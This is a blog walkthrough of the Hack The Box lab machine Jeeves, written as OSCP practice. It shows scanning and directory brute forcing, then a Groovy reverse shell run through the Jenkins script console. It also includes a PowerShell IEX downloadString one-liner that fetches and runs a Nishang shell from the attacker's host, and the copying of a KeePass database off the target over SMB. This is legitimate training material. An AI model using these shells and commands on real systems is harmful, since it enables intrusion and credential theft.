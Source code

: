 ```yaml
---
title:  "Hack The Box / Jeeves"
date: 2020-01-18
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/jeeves/jeeves-rooted.jpg"
---
```


Welcome! So, before starting with couple ways of getting this box, I want to explain the goal of this and the following posts. After two attempts to pass my OSCP exam (which both attemps failed) I looked the need to practice and explain some of the learning obtained with different machines in Hack The Box, so I decided to make some challenging boxes before my third attempt to the OSCP exam. I chose this list from [NetSec Focus](https://www.netsecfocus.com/) in order to improve my penetration testing skills. From this list Jeeves is the first box, so let's get to it. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/list.jpg" alt="oscp list">

## Information Gathering

### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine. 

```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.63
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/nmap-scan.png" alt="nmap scan">

Looks like we have some HTTP services running in port 80 and 50000. Also we can deduce that the machine is running Windows due to the IIS server. There is a good chance to scan the port 445 which is running a SMB service, but unfortunately the results are not helpful. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/nmap-scripts.png" alt="smb scan">

### Directory Brute Force
Then, having HTTP service running in port 80 and 50000 and running [dirsearch](https://github.com/maurosoria/dirsearch) in both ports, we get some good results in port 50000.

Results from browser and dirsearch running in port 80. 
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/browser-80.png" alt="browser">

```
python3 dirsearch.py -u http://10.10.10.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 50
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/dir-80.png" alt="dirsearch">

Results rom browser and dirsearch running in port 50000.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/not-found.png" alt="browser">

```
python3 dirsearch.py -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 50
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/dir-50000.png" alt="dirsearch">

Bingo! We have something to look at __http://10.10.10.63/askjeeves/__

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/jenkins.png" alt="browser">

So, after visitin this page and looking around things, in __"Manage Jenkins"__ there is something interesting called __"Script Console"__, and after googling around its exploitation we found something useful from [Hacking Articles](https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/).

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/jenkins-manage.png" alt="Manage Jenkins">

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/script-console.png" alt="Script Console">

## Reverse Shell
Knowing that we can do some exploitation with the script console in Jenkins. There are couple methods to get a reverse shell where I'll share two. 

### Reverse Shell - Method #1
After googling around things such as "jenkins language scripting" or "jenkins reverse shell" there is information that says that the langauage used to execute scripts in the console is called "Groovy". So, from this language the reverse shell obtained came from ["frohoff"](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) on github. 

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Then, adding this code and replace "localhost" for our IP and cliking "Run" I got a reverse shell!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/reverse-shell1.png" alt="Reverse Shell #1">

and wollah!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/netcat-shell.png" alt="NetCat Shell #1">

### Reverse Shell - Method #2

It keeps the same concept from the Script Console and Groovy Scripting language with the difference and usage of powershell. This method came from [IppSec](https://www.youtube.com/watch?v=EKGBskG8APc) in his video resolving Jeeves, so let's get it. 

So, before attempting this method, the usage of the reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and having a simple http server from python is important.

In Nishang we can add ``` Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.63 -Port 4444 ``` in the __last line__ of code as is shown in the picture below. The reason why adding this line is because at the time to execute the script in powershell we want to invoke the reverse shell to our respective IP with the respective port. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/nishang-modify.png" alt="nishang-modify">

After adding that line of code, we can start our python Simple HTTP Server in our location where we have our nishang script. 

```
python -m SimpleHTTPServer 80
```

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/python-server.png" alt="python-server">

After starting the server we should write and execute the following lines in the Script Console where our order will be to download the nishang script from our local host and executed in the remote machine invoking a reverse shell to our local host. 

Groovy code for the Script Console:
```
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

Powershell script to download the nishang script (might be useful for future machinesツ) :
```
(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1')
```

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/power-console.png" alt="power-console">

So, wollah!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/shell-gif.gif" alt="shell-gif">

## Getting the user flag

Once the reverse shell is obtained, it is not possible to move back from the directory because we don't have the privileges to do it due to our location in the administrator folder, but it's possible to list the files in the current directory, but that not helps too much. 

Note: If the reverse shell is obtained through the powershell method we can move back directories with no problem, but can't list the files in the Administrator folder due to lack of privileges. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/access-denied.png" alt="access-denied">

Then, we can move directly to the "users" folder with no problem, list the available users and obtain the users flag!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/user.png" alt="user flag">

## Getting root flag

To get the root flag there are two ways to get it where one compromises a file that has been gotten from the Documents directory within the user and the other way is using [RottenPotato](https://github.com/foxglovesec/RottenPotato) to scalate to root. 

### Getting root flag - Method #1
After looking around in the directories from the user __kohsuke__, there is a file in the Documents directory with __kdbx__ extension. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/list-documents.png" alt="list-documents">

After googling "kdbx extension", it gave a result saying that extension comes from a password manager called "KeePassX". So, the idea now is to transfer the file "CEH.kdbx" to our machine. To do this, the usage of the [smbserver from impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) will be helpful. This method has been learned from [The Cyber Jedi](http://thecyberjedi.com/). 

From our machine:
```
smbserver SAM kohsuke 
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/smbserver.png" alt="smbserver">

Before executing any comand in Jeeves, remember to create the folder where you want to transfer the files, in this case the folder name is __kohsuke__.

In Jeeves:
```
net use s: \\10.10.14.36\SAM
```
and then 
```
copy CEH.kdbx s:
```

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/copy.png" alt="copy">

From the smbserver it's going to appear the connection made with Jeeves, and in the folder __kohsuke__ will appear the file that we copied from Jeeves. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/transfer-done.png" alt="transfer-done">

Now that the file is in the local machine, we can use KeePassX in order to open this file. To install KeePassX in Kali Linux is simple as:
```
apt-get install keepassx 
```
Once KeePassX is installed, we can find it in the application menu toolbar. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/keepassx.png" alt="keepassx">

To open the file that we transfer from Jeeves in KeePassX the steps are:
1. Click in "Database"
2. Click in "Open database" or Ctrl + O
3. Select the location.
4. Open

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/jeeves/need-pass.png" alt="need-pass">